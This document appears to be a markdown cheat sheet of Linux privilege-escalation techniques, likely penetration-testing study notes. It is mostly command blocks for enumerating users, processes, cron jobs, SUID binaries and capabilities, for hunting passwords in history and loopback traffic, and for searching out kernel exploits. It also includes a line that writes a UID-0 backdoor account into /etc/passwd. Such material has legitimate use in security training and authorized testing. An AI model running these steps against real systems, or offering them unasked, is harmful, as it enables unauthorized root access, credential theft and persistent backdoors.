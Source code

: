 # Linux Privilege Escalation

[https://sirensecurity.io/blog/blog-archive-all-posts/](https://sirensecurity.io/blog/blog-archive-all-posts/)

#### Enumerating Linux <a href="#enumerating-linux" id="enumerating-linux"></a>

**Manually**

* User and host information



```
id
cat /etc/passwd
ls -la /etc/shadow
hostname
sudo -l
```

* OS Information



```
cat /etc/issue
cat /etc/*release
uname -a
```

* Enumerating Processes



```
ps -aux
./pspy64
```

* Networking Information

```
ifconfig
ip a

route 
routel

netstat -anp
ss -anp
```

* Firewall rules

```
cat /etc/iptables/rules.v4
```

* Scheduled Tasks

```
ls -lah /etc/cron*
crontab -l
sudo crontab -l
```

* Installed Application (Tiring Manually)

```
dpkg -l
```

* Writable Directories

```
find / -writable -type d 2>/dev/null
```

* Mounted Drives

```
cat /etc/fstab
mount
lsblk
```

* Loaded Kernel drivers and Modules

```
lsmod
modinfo <moduleName>
```

* SUID and SGID

```
find / -perm -u=s -type f 2>/dev/null
```

> References: https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md https://book.hacktricks.xyz/linux-hardening/privilege-escalation

**Automated**

```
./unix-privesc-check standard
./linpeas.sh
```

#### Exposed Confidential Information <a href="#exposed-confidential-information" id="exposed-confidential-information"></a>

**User Trails**

```
env
cat .bashrc
history
```

**Service Footprints**

```
watch -n 1 "ps -aux | grep pass"
sudo tcpdump -i lo -A | grep "pass"
```

#### Insecure File Permissions <a href="#insecure-file-permissions" id="insecure-file-permissions"></a>

**Cron Jobs**

```
grep "CRON" /var/log/syslog
cat /var/log/cron.log
```

**Password Authentication**

```
ls -la /etc/passwd

openssl passwd w00t
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```

#### Abusing System Linux components <a href="#abusing-system-linux-components" id="abusing-system-linux-components"></a>

**SUID Binaries (GTFObins to the rescue)**

* SUID

```
find / -perm -u=s -type f 2>/dev/null
```

* Capabilities

```
/usr/sbin/getcap -r / 2>/dev/null
```

**SUDO Abuse**

https://github.com/rabiulhsantahin/ctf/blob/main/sudo-exploit.txt

```
sudo -l
sudo -V
aa-status
```

**Kernel Exploits**

```
cat /etc/issue
uname -r
arch
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0"
```
